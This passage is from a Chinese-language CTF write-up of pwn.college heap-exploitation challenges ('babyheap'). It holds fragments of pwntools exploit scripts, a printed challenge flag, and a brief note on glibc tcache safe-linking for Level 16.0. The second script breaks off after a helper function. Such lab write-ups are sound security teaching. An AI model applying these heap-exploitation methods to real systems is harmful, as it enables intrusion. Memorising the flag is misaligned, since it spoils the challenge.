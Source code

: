 ```python
    malloc(0, 0)

    read(0, 0x1337)
    target.sendline(p64(win))
    quit()

    target.interactive()


if __name__ == "__main__":
    main()
```

## Flag

:spoiler[`pwn.college{sqd-yJZ1_DJOrzpwErrz-Y_4Jw1.0FMwQDL5cTNxgzW}`]

# Level 16.0

## Information

- Category: Pwn

## Description

> Revisit a prior challenge, now with TCACHE safe-linking.

## Write-up

Description 已经说的很清楚了，就是前面某个 challenge 的修订版，safe-linking 是 2.32 加入的，这个 chall 使用的是 2.35，但是区别不大，safe-linking 一直到现在最新的 2.42 都没怎么变过。

没学过 safe-linking 的可以看我写的 [解链之诗：堆上咒语的逆诵](/posts/pwn-notes/pwn-trick-notes/#解链之诗堆上咒语的逆诵)。

## Exploit

```python
#!/usr/bin/env python3

from pwn import (
    args,
    context,
    flat,
    process,
    raw_input,
    remote,
)


FILE = "/challenge/babyheap_level16.0"
HOST, PORT = "localhost", 1337

context(log_level="debug", binary=FILE, terminal="kitty")

elf = context.binary


def malloc(idx, size):
    target.sendlineafter(b": ", b"malloc")
    target.sendlineafter(b"Index: ", str(idx).encode())
    target.sendlineafter(b"Size: ", str(size).encode())
```